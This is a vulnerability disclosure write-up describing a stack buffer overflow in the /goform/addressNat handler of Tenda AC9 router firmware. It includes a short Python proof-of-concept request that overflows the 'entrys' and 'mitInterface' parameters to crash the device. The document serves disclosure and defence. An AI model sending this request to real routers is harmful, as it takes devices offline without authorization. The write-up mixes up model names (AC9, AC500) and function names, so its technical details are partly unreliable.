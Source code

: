 # Tenda Router AC9 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC93.0_V15.03.06.42_multi](https://www.tenda.com.cn/download/detail-2908.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/171/vlun.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
